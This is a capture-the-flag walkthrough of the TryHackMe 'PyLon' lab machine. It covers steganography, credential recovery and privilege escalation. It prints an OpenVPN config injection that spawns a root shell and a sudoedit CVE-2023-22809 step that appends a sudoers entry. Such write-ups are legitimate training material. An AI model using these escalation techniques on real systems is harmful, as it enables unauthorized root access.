## TL;DR

In this challenge we start with an image, and find ssh private key + encoded key, using base84.

Then, we login as lone to the ssh service on port `222`.

We escalate to `pood` by checkout to initial commit and grab the private gpg key, for the encrypted notes.

We escalate to root using known exploit on `sudoedit` version. The regular way with malicious openvpn configuration isn't working.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see two ports with ssh, port `22` and port `222`.
```bash
PORT    STATE SERVICE REASON         VERSION                                                                                           
22/tcp  open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                      
| ssh-hostkey: 
|   2048 12:9f:ae:2d:f8:af:04:bc:8d:6e:2d:55:66:a8:b7:55 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC48TQ2bNsfSzCnjiLLFrhPxsQFtcf4tlGCuD9FFnqSRngeiwGx5OYXmVpTmZ3oQBlg09xQZHhOx0HG1w9wQTeGNfrJ3HbI7
Ne4gzCXeNacwNrPwa9kQ4Jhe90rXUGbsnjwrSTXSe/j2vEIDOPo+nlP7HJZBMvzPR8YohRxpn/zmA+1/yldVDueib64A3bwaKZ/bjFs8PvY4kRCwaFF3j0vhHT5bteQWqllpJXO
YMe/kXiHa8pZoSamp+fNQm7lxIpXZhcw13cXWauVftAMloIfuOJQnOxmexbCbC0D0LTj/W1KdYIXcw9+4HdNn+R0wFFgOWfL49ImnGeZvIz+/KV7
|   256 ce:65:eb:ce:9f:3f:57:16:6a:79:45:9d:d3:d2:eb:f2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAngdr5IauC530BNjl20lrHWKkcbrDv4sx0cCN3LDhz01JHzSrlxO4+4JizUG
zK/nY/RUY1w5iyv9w9cp4cayVc=
|   256 6c:3b:a7:02:3f:a9:cd:83:f2:b9:46:6c:d0:d6:e6:ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIxQ6Fpj73z02s4gj/3thP3O1xXMmVp60yt1Ff7wObmh
222/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 39:e1:e4:0e:b5:40:8a:b9:e0:de:d0:6e:78:82:e8:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCWmYY++QRFaOM4hlW77VN6PvZcLVj1gqoBUnqRt3WbbrYUzwe9nBU4YdM6LN1d57KrNuzZyrvjS2+9V9Wz7AtsiBGz+7rOM
ejT4A3hz6GdMUZwAZ7jhDEqqYV/BDP+xcadiLuHWnYFyeSy1xLhVRtZsnU8bXCg9+meHv6PBMq6+TFK5zkmYXBshEyj8LpH9MRGXlwHREkbAcllAr0gNRTrJpwI4/r/O//V6TIA
1wyLoDZtYQABVsVoGd9R0vu++HLrNI9+NBi7BVyUvOSkQmsoFNAkMslZv9S7TOG/VQQOrJMjRY/EGPu6JwLHmpd+Kf3q6cOrCjfQOXRo+UaD/E0cfNClCXlJPAa3t8SzqYBK7eb
kCwF7fifuOH7vIGgioN9jJNYzcB1hlLcfuBhv69qpe99DL7C4Qqk0ftv9TQgx945JhQiq2LH90eYDUGXmVu0wKLu4mfMfLSUYYgXEZGNkqIW/IM13wagN1FHZBNMsyR1/f/O9ig
D/qEt0KT70Zfs=
|   256 c6:f6:48:21:fd:07:66:77:fc:ca:3d:83:f5:ca:1b:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC9mDTxaeB3QKOzrGC5WK4WId+ZzFhUAgFK5ONKQ7I2Ya+FmBk/R4Uqjq3Epc
0Xv31gi6r3k8ytRBYFMmq3L66g=
|   256 17:a2:5b:ae:4e:44:20:fb:28:58:6b:56:34:3a:14:b3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICwLlQimfX4lrWWdFenHEWZgUWVWRQj1Mt0L4IBeeTnJ
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `pylon` to our `/etc/hosts`.

### Find private key inside image and also encoded key

I downloaded the file, we got this image:


First, using `exiftool` we can find hidden data:
```bash
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ exiftool pepper_1611998632625.jpg 
ExifTool Version Number         : 13.25
File Name                       : pepper_1611998632625.jpg
Directory                       : .
File Size                       : 390 kB
File Modification Date/Time     : 2025:12:01 13:55:32+02:00
File Access Date/Time           : 2025:12:01 13:55:46+02:00
File Inode Change Date/Time     : 2025:12:01 13:55:38+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
XMP Toolkit                     : Image::ExifTool 12.16
Subject                         : https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)To_Base85('!-u',false)
Image Width                     : 2551
Image Height                    : 1913
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 2551x1913
Megapixels                      : 4.9
```



The subject is very interesting, we'll save it for later use:
```bash
Subject                         : https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)To_Base85('!-u',false)
```

Now, using `steghide` we can find there is hidden data:
```bash
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ steghide --info pepper_1611998632625.jpg 
"pepper_1611998632625.jpg":
  format: jpeg
  capacity: 20.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

Let's crack it with `stegseek`:
```bash
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ stegseek pepper_1611998632625.jpg -wl /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "pepper"
[i] Original filename: "lone".
[i] Extracting to "pepper_1611998632625.jpg.out".
```
So, the password is `pepper`, where the original filename was `lone`.



we can now extract with the password `pepper`, and this command:
```bash
steghide --info pepper_1611998632625.jpg
```



The file `pepper_1611998632625.jpg.out` looks like base64 encoded file.



After set of commands, we got private key. base64 decoding, `gunzip` extracting and `tar` extracting.
```bash
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ base64 -d pepper_1611998632625.jpg.out > decoded.txt
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ file decoded.txt                 
decoded.txt: gzip compressed data, from Unix, original size modulo 2^32 10240
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ mv decoded.txt decoded.txt.gz
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ gunzip decoded.txt.gz                   
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ file decoded.txt 
decoded.txt: POSIX tar archive (GNU)
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ tar -xvf decoded.txt 
lone_id
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ ls
decoded.txt  lone_id  nmap.txt  nmap.xml  pepper_1611998632625.jpg  pepper_1611998632625.jpg.out
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/PyLon]
└─$ file lone_id    
lone_id: OpenSSH private key
```



Now, set the file lone_id, to be read only:
```bash
chmod 600 lone_id
```

and connect via ssh:
```bash
ssh lone@pylon -p 222 -i lone_id
```
That's what we see:



I tried to give the password `pepper` we found before, but it didn't work.
Then, i remembered the schema we found in the Subject of the metadata of the image, let's use it:
[https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)To_Base85('!-u',false)&input=cGVwcGVy](https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)To_Base85('!-u',false)&input=cGVwcGVy)



and we get the encoded password `2_[-I2_[0E2DmEK`, which is working.



Then, I found the first flag, in the first option, we can decrypt passwords.



```bash
Username = FLAG 1
Password = THM{homebrew_password_manager}
```

Next stage was to the decrypt the password of user `lone`, this is what we get:



```bash
Username = lone
Password = +2BRkRuE!w7>ozQ4
```

Let's change the hostname in the `/etc/hosts` file to `pylon.thm`, and login with the credentials.
```bash
ssh lone@pylon.thm
```



and grab the first user flag:



```bash
lone@pylon:~$ cat user1.txt 
TMM{easy_does_it}
```

We can check for user permissions for sudo using `sudo -l`, with the password `+2BRkRuE!w7>ozQ4`:
```bash
lone@pylon:~/pylon$ sudo -l
[sudo] password for lone: 
Matching Defaults entries for lone on pylon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lone may run the following commands on pylon:
    (root) /usr/sbin/openvpn /opt/openvpn/client.ovpn
```

###  Privilege escalate to pood using git first commit

We can see the file `note_from_pood.gpg` which is encrypted, in PGP RSA mode.
```bash
lone@pylon:~$ file note_from_pood.gpg 
note_from_pood.gpg: PGP RSA encrypted session key - keyid: A7A53FD8 57FE0F16 RSA (Encrypt or Sign) 3072b .
```

Inside `pylon` folder we can see `.git` folder, which means we are inside git repoistory:

 

using `git log` we can see 3 commits
```bash
lone@pylon:~/pylon$ git log
commit 73ba9ed2eec34a1626940f57c9a3145f5bdfd452 (HEAD -> master)
Author: lone <lone@pylon.thm>
Date:   Sat Jan 30 02:55:46 2021 +0000

    actual release! whoops

commit 64d8bbfd991127aa8884c15184356a1d7b0b4d1a
Author: lone <lone@pylon.thm>
Date:   Sat Jan 30 02:54:00 2021 +0000

    Release version!

commit cfc14d599b9b3cf24f909f66b5123ee0bbccc8da
Author: lone <lone@pylon.thm>
Date:   Sat Jan 30 02:47:00 2021 +0000

    Initial commit!
```



Let's checkout to the first commit:
```bash
git checkout cfc14d599b9b3cf24f909f66b5123ee0bbccc8da
```

we can see several files now:
```bash
lone@pylon:~/pylon$ ls
README.txt  __pycache__  banner.b64  pyLon.db  pyLon_crypt.py  pyLon_db.py  pyLon_pwMan.py
lone@pylon:~/pylon$ python3 pyLon_pwMan.py
```

Let's execute `pyLon_pwMan.py`, and try to decrypt the passwords. Remember, this was the key to enter this passwords manager: `2_[-I2_[0E2DmEK`.

We can find the gpg key, here:



```bash
Username = lone_gpg_key
Password = zr7R0T]6zvYl*~OD
```

Now, we'll decrypt with this passphrase, with `zr7R0T]6zvYl*~OD`
```bash
lone@pylon:~$ gpg --decrypt note_from_pood.gpg 
gpg: Note: secret key D83FA5A7160FFE57 expired at Fri Jan 27 19:13:48 2023 UTC
gpg: encrypted with 3072-bit RSA key, ID D83FA5A7160FFE57, created 2021-01-27
      "lon E <lone@pylon.thm>"
Hi Lone,

Can you please fix the openvpn config?

It's not behaving itself again.

oh, by the way, my password is yn0ouE9JLR3h)`=I

Thanks again.
```



Okay, the password of `pood` is ``yn0ouE9JLR3h)`=I``, we can change to `pood` using `su`:



grab flag 2:
```bash
lone@pylon:~/pylon$ su pood
Password: 
pood@pylon:/home/lone/pylon$ id
uid=1001(pood) gid=1001(pood) groups=1001(pood)
pood@pylon:/home/lone/pylon$ cd ~
pood@pylon:~$ ls
user2.txt
pood@pylon:~$ cat user2.txt 
THM{homebrew_encryption_lol}
```

### Privilege Escalation to Root using sudoedit (unintended way, the regular way with openvpn malicious configuration isn't working)

The note says something about openvpn config, and when we check for sudo permissions, we can see we can edit the openvpn config file:
```bash
pood@pylon:~$ sudo -l
[sudo] password for pood: 
Matching Defaults entries for pood on pylon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pood may run the following commands on pylon:
    (root) sudoedit /opt/openvpn/client.ovpn
```

Remember that we can also run this file as root, using sudo on user lone
```bash
lone@pylon:~/pylon$ sudo -l
[sudo] password for lone: 
Matching Defaults entries for lone on pylon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lone may run the following commands on pylon:
    (root) /usr/sbin/openvpn /opt/openvpn/client.ovpn
```

Now, i've found this article [https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da), which talks about how to execute commands using the openvpn config file.

Let's insert this lines into the file `/opt/openvpn/client.ovpn`:
```bash
script-security 2
up '/bin/sh -c sh'
```

I tried with changing the openvpn config, but it didn't work.
Then, i find this [https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc).

Just execute the exploit, and add this line to the file being opened:
```bash
pood ALL=(ALL:ALL) ALL
```
